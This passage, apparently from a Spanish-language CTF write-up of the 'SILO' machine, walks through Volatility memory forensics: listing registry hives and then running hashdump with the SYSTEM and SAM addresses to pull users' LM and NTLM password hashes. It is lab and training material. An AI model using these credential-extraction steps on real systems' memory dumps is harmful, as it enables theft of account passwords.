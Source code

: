 > A *hive* is a logical group of keys, subkeys, and values in the registry that has a set of supporting files loaded into memory when the operating system is started or a user logs in. [Registry Hives](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-hives).

Tenemos el argumento [hivelist](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#hivelist) que nos da una lista de los registros con su dirección en memoria, path y nombre específicos, así sabemos cuál es de cuál :)

```bash
❭ volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 hivelist
Volatility Foundation Volatility Framework 2.6

Virtual            Physical           Name
------------------ ------------------ ----
0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS
0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffffc0000001e000 0x0000000000b65000 [no name]
0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM
0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE
0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD
0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE
0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT
0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat
```

Bien, tenemos el registro **SAM** y el registro **SYSTEM**, estos son importantes, ya que los dos contienen las contraseñas de los usuarios del sistema en formato hash (LM (Lan Manager) hash y [NTLM](https://www.ionos.es/digitalguide/servidores/know-how/ntlm/) hash).

* [Info - Registry **SAM**](https://en.wikipedia.org/wiki/Security_Account_Manager).
* [Info - What is **SAM** (Security Account Manager)](https://www.top-password.com/blog/tag/windows-sam-registry-file/).
* [Info - Registry: HKEY_LOCAL_MACHINE\SAM](https://renenyffenegger.ch/notes/Windows/registry/tree/HKEY_LOCAL_MACHINE/SAM/index).
* [Info - Windows registry information for advanced users](https://docs.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users).

Así que podemos aprovechar que sabemos su dirección en memoria para mediante [hashdump](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#hashdump) intentar que nos muestre los hashes de los usuarios:

```bash
❭ volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 -y 0xffffc00000028000 -s 0xffffc00000619000 hashdump
```

* `-y`: Tiene la direccion **virtual** del registro **SYSTEM**.
* `-s`: Tiene la direccion **virtual** del registro **SAM**.
